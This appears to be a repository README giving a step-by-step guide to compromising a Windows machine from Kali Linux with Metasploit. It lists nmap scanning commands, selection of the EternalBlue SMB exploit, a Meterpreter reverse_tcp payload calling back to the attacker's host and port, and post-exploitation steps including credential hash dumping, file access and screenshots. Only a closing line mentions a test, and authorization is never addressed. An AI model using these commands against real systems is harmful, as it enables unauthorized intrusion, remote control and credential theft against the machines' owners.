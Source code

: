 
# Exploiting a Windows machine through Kali Linux in an automatic format can be achieved using tools such as Metasploit Framework, which provides automated methods for discovering and exploiting vulnerabilities. Below is a general step-by-step guide for the process:

1. Identify the Target
Identify the IP address of the target Windows machine on your network. You can use the nmap tool to perform network scanning to discover the machine's IP.

Run a simple network scan:

* nmap -sP [network/subnet]

2. Scan for Vulnerabilities (Nmap and Metasploit)

Now that you know the IP address of the target, perform a more detailed scan to discover open ports and services running on the target machine.

Use Nmap to scan for open ports and service versions:

* nmap -sV -O [target_ip]

Optional: Use Nmap scripts to scan for specific vulnerabilities:

* nmap --script vuln [target_ip]
  
3. Launch Metasploit

Launch the Metasploit Framework to automate the exploitation process.

Open a terminal and run:

* msfconsole
  
4. Search for Exploits

Once inside the Metasploit console, search for vulnerabilities related to the services running on the target.

You can search using a specific service, application, or CVE ID:

* search [service/application/cve]
  

5. Select an Exploit

After identifying the correct exploit, select it and set the required options.

Use the use command to select the exploit:

* use exploit/windows/smb/ms17_010_eternalblue

Set the target IP address:

* set RHOSTS [target_ip]

6. Configure the Payload

Choose a payload that will be executed on the target machine once it is exploited. A common payload is Meterpreter.

Example of setting the payload:

* set payload windows/meterpreter/reverse_tcp
  
Set the local IP (your Kali machine IP) and port for the reverse connection:

* set LHOST [your_ip]

* set LPORT 4444
  
7. Run the Exploit

Once the exploit and payload are configured, run the exploit.

Execute the attack:

* exploit
  
8. Gaining Access (Meterpreter Session)

If the exploit is successful, you will get a Meterpreter session on the Windows machine.

To list active sessions:

* sessions
  
To interact with a specific session:

* sessions -i [session_id]
  
9. Post-Exploitation
    
Now that you have access, you can perform various tasks, such as:

Check system info:

* sysinfo

Dump credentials (e.g., hashes):

* hashdump
  
Access files:

* ls
  
* Capture screenshots

10. Clean Up
    
Always remember to clean up after your test. If you have compromised a machine for testing, terminate any sessions and remove any tools you placed on the target system.

To exit the Meterpreter session:

* exit
  
To stop the Metasploit console:

* exit
  
By automating steps with Metasploit, this method helps quickly exploit vulnerable systems, provided the target machine is susceptible to known vulnerabilities.
